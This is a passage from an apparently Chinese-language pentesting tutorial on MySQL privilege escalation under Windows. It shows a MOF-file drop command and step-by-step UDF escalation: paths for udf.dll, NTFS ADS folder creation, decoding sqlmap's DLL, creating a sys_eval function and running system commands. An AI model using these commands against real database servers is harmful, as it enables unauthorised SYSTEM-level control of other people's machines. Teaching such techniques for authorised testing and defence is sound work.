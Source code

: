 > 上传mof文件执行load_file和into dumpfile将文件导出到指定位置select load_file('mof目标路径') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'  
> nullevt.mof文件的内容  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OSYkRYGoXpl337TnwnDicmoCCSkvibZp2HLrWPlVeXREZZkEu0Jj9ibDAA/640?wx_fmt=png&from=appmsg "")  
  
  
#### UDF提权  
- 原理：UDF(user defined function)用户自定义函数通过添加新函数，对mysql服务器进行功能扩充，将mysql账号转化为system权限。  
  
- 方式：通过root权限导出udf.dll到系统目录下，使udf.dell调用cmd  
  
- 利用条件：  
  
- windows 2000\XP\2003  
  
- 账号对mysql有插入和删除权限  
  
- 对应目录有写权限  
  
> mysql版本对应的udf.dll导出路径：  
> 数据库版本操作系统udf.dll导出路径<5.0所有操作系统路径随意<=5.1windows2003c:\windows\system32\udf.dll<=5.1windows2000c:\winnt\system32\udf.dll>5.1所有操作系统mysql安装目录下的lib\plugin\udf.dll  
> mysql安装目录查询语句： 
```
select @@basedir
```

  
  
- udf 提权步骤  
  
- select user();\version();\basedir()判断数据库版本、用户和安装目录  
  
- 如果\lib\plugin目录不存在，可以利用NTFS ADS流创建文件夹  

```
select 'xxx' into dumpfile 'mysql目录\\lib:$INDEX_ALLOCATION';
```

  

```
select 'xxx' into dumpfile 'mysql目录\\lib\plugin:$INDEX_ALLOCATION';
```

  
  
或者是webshell直接创建  
  
- 导入udf.dll文件。该文件在sqlmap/data/udf/mysql/目录下有，只是该dll文件是通过异或编码的，可以使用sqlmap/extra/cloak.py解密。  
  
- 上传udf.dll到指定目录。有webshell就直接传，传不了就select load_file()。  
  
- 创建自定义函数。
```
create function **sys_eval** returns string soname 'udf.dll';
```

  
  
必须要创建.dll文件中存在的函数才行，可以用十六进制编辑器打开udf.dll文件慢慢找函数，也可以用dumpbin.exe查看。soname指向动态链接库  
  
- 执行高权限指令：
```
select sys_eval('whoami');
```
